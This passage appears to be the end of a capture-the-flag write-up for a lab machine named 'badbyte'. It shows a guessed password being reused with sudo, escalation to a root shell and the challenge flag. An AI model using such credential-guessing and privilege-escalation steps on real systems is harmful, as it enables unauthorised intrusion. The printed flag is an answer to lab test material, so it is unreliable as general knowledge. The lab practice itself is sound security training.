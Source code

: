 ```
sudo -l
[sudo] password for cth: G00dP@$sw0rd2020

Sorry, try again.
[sudo] password for cth: G00dP@$sw0rd2021

User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
```


and i got root shell


```
cth@badbyte:/var/log$ sudo su
sudo su
root@badbyte:/var/log# id
id
uid=0(root) gid=0(root) groups=0(root)
```

and the flag
```
THM{ad485b44f63393b6a9225974909da5fa}
```